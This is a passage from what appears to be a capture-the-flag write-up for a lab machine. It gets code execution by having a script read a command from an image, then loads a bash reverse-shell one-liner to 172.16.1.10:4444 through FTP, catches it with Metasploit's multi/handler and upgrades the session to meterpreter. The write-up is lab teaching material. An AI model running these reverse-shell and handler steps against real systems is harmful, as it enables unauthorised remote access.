 The _doit.py_ script reads the _command.jpg_ image and converts it to text. A word of caution, I recommend using the _Consolas fonts_ when you will create text on the image. Other fonts can be problematic in recognizing characters. Keep in mind, that _command.jpg_ is real **.png** image not **.jpeg**. At first, I wanted to type the entire command into a picture, but there was a problem with letter recognition.
{: .text-justify}
{% include gallery id="gallery3_4" caption ="one line scripts" %}
So I typed a short command and additionally uploaded the script.sh to the **FTP** server.
{: .text-justify}
```console
ncftp /home/me > cat script.sh
bash -i > /dev/tcp/172.16.1.10/4444 2>&1 0>&1

ncftp /home/me >
```
## 08. Metasploit and Shell
In the next window, we turned on Metasploit and launched the connection handling module.
{: .text-justify}
```console
msf6 > resource 1.rc
[*] Processing /home/szikers/nowords/1.rc for ERB directives.
resource (/home/szikers/nowords/1.rc)> use exploit/multi/handler
[*] Using configured payload linux/x86/shell_reverse_tcp
resource (/home/szikers/nowords/1.rc)> set lport 4444
lport => 4444
resource (/home/szikers/nowords/1.rc)> set lhost eth0
lhost => eth0
resource (/home/szikers/nowords/1.rc)> set payload payload/linux/x64/shell_reverse_tcp
payload => linux/x86/shell_reverse_tcp
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 172.16.1.10:4444
msf6 exploit(multi/handler) > jobs
```
After a minute we had access to the shell:
{: .text-justify}
```console
  Id  Name                    Payload                      Payload opts
  --  ----                    -------                      ------------
  0   Exploit: multi/handler  linux/x86/shell_reverse_tcp  tcp://172.16.1.10:4444

msf6 exploit(multi/handler) > [*] Command shell session 1 opened (172.16.1.10:4444 -> 172.16.1.114:57484) at 2021-09-28 23:31:08 +0200
```
## 09. Exploit and root
First you need to upgrade session. Better works with exploit:
{: .text-justify}
```console
msf6 exploit(multi/handler) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 172.16.1.10:4433
[*] Sending stage (984904 bytes) to 172.16.1.114
[*] Meterpreter session 2 opened (172.16.1.10:4433 -> 172.16.1.114:36826) at 2021-09-29 03:40:43 +0200
```
Remember, it may fail the first time, but don't be discouraged, try.
{: .text-justify}
